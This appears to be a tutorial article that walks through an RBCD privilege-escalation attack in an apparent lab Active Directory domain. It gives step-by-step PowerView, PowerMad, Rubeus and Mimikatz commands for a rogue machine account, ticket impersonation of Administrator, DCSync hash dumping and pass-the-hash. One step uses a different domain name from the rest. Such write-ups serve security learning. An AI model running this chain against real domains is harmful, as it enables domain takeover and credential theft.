








Introduction
This article covers the eighth Domain Privilege Escalation technique: RBCD, which stands for Resource-based Constrained Delegation.
Prerequisites
To execute this technique, you must have one of the following permissions on the target machine: Generic All, Generic Write, or Write Property. Without one of these ACL permissions on the target, this attack is not possible.
How Does Resource-based Constrained Delegation Work?
The concept is similar to the Constrained Delegation technique covered in a previous article, but with important differences in how the delegation is configured.
In RBCD, the delegation configuration is set on the target (resource) side rather than on the service account side. Here is how the attack works:
- We create a fake (rogue) machine account on the domain and assign it a known password.
- We then add a new property called
msds-allowedtoactonbehalfofotheridentityon the target machine, setting its value to the SID of our fake machine. This tells the target machine to trust delegation requests coming from our rogue machine. - Using Rubeus, we request a service ticket (TGS) for any service on the target machine through our fake machine, impersonating a high-privilege user like Administrator.
The specific service we request determines what we can do on the target: - HTTP -- Enables PowerShell Remoting (PS Remoting) to the target. - CIFS -- Allows browsing files on the target machine. - HOST -- Enables scheduling tasks on the target, which can be used to execute a reverse shell. - LDAP -- If the target is the Domain Controller, this allows us to perform a DCSync attack to extract the NTLM hashes of Domain Admins and then execute a Pass the Hash attack.
Walkthrough

Step 1: Load PowerView and Enumerate ACLs
We start by logging in as the user HRmanager. First, load the PowerView module:
Import-Module .\powerview.ps1
Next, enumerate the Access Control Lists (ACLs) across the domain to find any permissions that benefit us:
Find-InterestingDomainAcl -ResolveGUIDs
After examining the output, we can see that the HRmanager user (found in the IdentityReferenceName field) has Write Property permission on the Domain Controller machine (shown in the ObjectDN field). This is exactly what we need to carry out the RBCD attack.
Step 2: Load PowerMad and Create a Fake Machine Account
Download and load the PowerMad module, which allows us to create rogue machine accounts:
Import-Module .\powermad.ps1
Now create a fake machine account named dude with the password 123:
New-MachineAccount -Domain cyber.local -MachineAccount dude -Password (ConvertTo-SecureString '123' -AsPlainText -Force) -Verbose

Step 3: Extract the SID of the Fake Machine
We need the SID (Security Identifier) of our newly created fake machine account. This SID will be used when configuring the delegation property on the target:
Get-NetComputer dude | Select objectsid

Step 4: Build the Security Descriptor
Using the SID we extracted in the previous step, we construct a raw security descriptor. This descriptor defines that our fake machine is allowed to act on behalf of other identities on the target. Replace the SID in the command below with the one you obtained:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-4117163453-3728762355-2024759166-1601)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Step 5: Set the Delegation Property on the Target Machine
Now we write the msds-allowedtoactonbehalfofotheridentity attribute on the target machine (the Domain Controller), assigning it the security descriptor that contains our fake machine's SID:
Get-NetComputer jehaddc.m3c.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
This effectively tells the Domain Controller: "The machine with this SID is allowed to delegate and act on behalf of other users when accessing my services."
Step 6: Generate the AES256 Hash of the Fake Machine's Password
Before we can request tickets through Rubeus, we need the AES256-encrypted version of our fake machine's password. Rubeus can compute this for us:
.\Rubeus.exe hash /password:123 /user:dude$ /domain:cyber.local
Note the $ appended to the username, as this is a machine account.

Step 7: Request a TGS via S4U
Now we use Rubeus to perform the S4U (Service for User) attack. Since our target is the Domain Controller, we request a TGS for the LDAP service, which will allow us to perform a DCSync attack later. We impersonate the domain Administrator:
.\Rubeus.exe s4u /domain:cyber.local /dc:JehadDC.cyber.local /user:dude$ /ptt /aes256:5B9C740C2E833C237562871A4B3C3B7FF7839D48C3CBB3CBB152E2E82C981928 /impersonateuser:Administrator /msdsspn:ldap/jehaddc.cyber.local
/user:dude$specifies our fake machine account./pttinjects the resulting ticket directly into memory./aes256:...provides the AES256 hash of the fake machine's password./impersonateuser:Administratortells the KDC we want a ticket impersonating the Administrator./msdsspn:ldap/jehaddc.cyber.localspecifies the LDAP service on the Domain Controller as the target service.
You should substitute the domain, DC hostname, AES256 hash, and service SPN according to your specific environment. You can also substitute different services in the /msdsspn parameter depending on your objective, as described at the beginning of this article.

Step 8: Verify the Ticket Was Injected
Confirm that the TGS was successfully injected into memory:
klist
If the output shows a cached ticket for ldap/jehaddc.cyber.local, the injection was successful.

Step 9: Perform DCSync to Extract the Domain Admin Hash
Since we now have a TGS for the LDAP service on the Domain Controller, we can use Mimikatz to perform a DCSync attack. This replicates the behavior of a Domain Controller and pulls the NTLM hash of the domain Administrator:
lsadump::dcsync /user:cyber\Administrator
This returns the NTLM hash of the Administrator account (for example: 311fb27b1e766dac7357f4270f4112df).
Step 10: Pass the Hash and Gain Domain Admin Access
With the Administrator's NTLM hash in hand, we use Mimikatz to perform a Pass the Hash attack. This launches a new PowerShell session running under the context of the Domain Administrator:
sekurlsa::pth /user:Administrator /ntlm:311fb27b1e766dac7357f4270f4112df /domain:cyber.local /run:powershell.exe
A new PowerShell window opens with Domain Admin privileges. From this elevated session, we can connect to the Domain Controller directly:
Enter-PSSession jehaddc.cyber.local
This gives us a fully interactive PowerShell session on the Domain Controller as the domain Administrator, completing the privilege escalation.
